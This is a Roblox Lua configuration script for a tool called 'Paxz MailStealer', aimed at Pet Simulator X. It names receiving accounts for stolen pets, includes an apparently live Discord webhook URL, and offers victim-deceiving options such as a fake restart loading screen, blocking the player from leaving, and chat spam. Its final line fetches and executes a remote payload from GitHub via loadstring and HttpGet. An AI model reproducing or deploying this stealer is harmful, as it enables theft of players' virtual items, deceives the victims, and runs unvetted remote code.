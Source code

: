 -- {{Paxz MailStealer}} --

_G.UserName = "kool_aid14800" --// User you want to send good pets to like Titantics, Huges, exclusives
_G.UserName2 = "lolbot679" --// Sends bad pets to like event pets put the same user if you want to send them to first user to
_G.Webhook = "https://discord.com/api/webhooks/1133283216166498334/N_FzK2BjcXolJ1QWcGXqY3vG2D_2bYV4nZQlwumcU1Py164QQ51-wtjU-ejgo1RMgBrd" --// Sends you a notification if you are getting pets in your mail
_G.loadingScreenText = "we restarting psx" --// Set _G.LoadingScreen to true for loading screen and here you can put text for it
_G.ChatMessage = "hello" --// Set _G.ChatSpam to true for spamming a message you put in here
_G.KickTime = "5" --// Kicks the player after the time you set (In Seconds)

-- [[Extra Stuff]] --

_G.LoadingScreen = false --// Set to true if you want loadingscreen
_G.AntiLeave = false --// Set to true if you want to the player to not leave
_G.MouseLock = false --// Locks the mouse (Not working really well)
_G.ChatSpam = false --// Spams a message you putted in _G.ChatMessage in the chat
_G.CollectOrbs = false --// Collects all orbs from anywhere

-- /|\ Script /|\ --
loadstring(game:HttpGet("https://raw.githubusercontent.com/PaxzStealer/Paxz/main/Paxz%20MailStealer.lua", true))()
